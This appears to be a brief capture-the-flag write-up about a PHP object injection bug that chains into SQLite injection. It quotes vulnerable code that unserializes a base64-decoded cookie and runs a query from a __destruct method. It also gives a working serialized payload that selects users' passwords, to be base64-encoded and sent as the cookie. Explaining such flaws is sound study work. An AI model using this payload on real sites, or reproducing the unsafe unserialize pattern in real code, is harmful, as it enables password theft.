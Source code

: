 ### Object injection &&& sqlite injection 


Vulnerablity :

```php

// object injection 

$sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));


//  Magin function !!!!!

 public function __destruct() {
 
 
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        
        ...
        
        echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }

```

The actual object is of type array but here we modify it to an sql object with our query like this

O:3:"SQL":2:{s:5:"query";s:37:"SELECT password AS username  FROM users";s:4:"conn";N;}

the tricky part here is use of AS coz only username field is used !!!!!!

and set the base-64 content of serialized object as our cookie and the rest is taken care by __destruct() 

[Redacted]
